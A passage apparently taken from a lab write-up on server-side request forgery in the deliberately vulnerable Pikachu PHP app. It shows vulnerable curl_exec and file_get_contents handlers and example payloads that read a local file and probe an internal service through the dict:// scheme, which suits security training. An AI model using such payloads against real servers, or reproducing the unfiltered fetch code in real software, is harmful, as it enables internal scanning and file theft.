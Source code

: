 Data flow: attacker----->server---->target address

Depending on the functions used in the background, the corresponding impact and utilization methods are different

Improper use of the following functions in PHP can cause SSRF:

file_get_contents()
fsockopen()
curl_exec()
If it is necessary to make a resource request to the address specified by the user ("or a request embedded in the front end") remotely through the background server, please filter the target address.

SSRF(curl)
Server-side core code

if(isset($_GET['url']) && $_GET['url'] != null){
     //It's okay to receive the front-end URL, but filter it well, if you don't filter it, it will lead to SSRF
     $URL = $_GET['url'];
     $CH = curl_init($URL);
     curl_setopt($CH, CURLOPT_HEADER, FALSE);
     curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
     $RES = curl_exec($CH);
     curl_close($CH) ;
//The question of ssrf is: the url passed in by the front end is requested by the background using curl_exec(), and then the result of the request is returned to the front end.
//In addition to http/https, curl also supports some other protocols curl --version can view the supported protocols, telnet
//curl supports many protocols, including FTP, FTPS, HTTP, HTTPS, GOPHER, TELNET, DICT, FILE and LDAP
     echo $RES;
}
Extended reading: Use CURL to implement GET and POST requests in PHP

exploit

Observe url: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php

It looks like a remote inclusion vulnerability, try to construct payload: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com



There are many ways to use SSRF, the more common one is that the server requests other websites, one is to detect sensitive information on the intranet, and the other is to attack web applications, mainly through trust2 remote command execution, and some middleware getshell.

payload: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt

payload: http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info



SSRF(file_get_content)
Server-side core code

if(isset($_GET['file']) && $_GET['file'] !=null){
     $filename = $_GET['file'];
     $str = file_get_contents($filename);
     echo $str;
}
file_get_contents() function
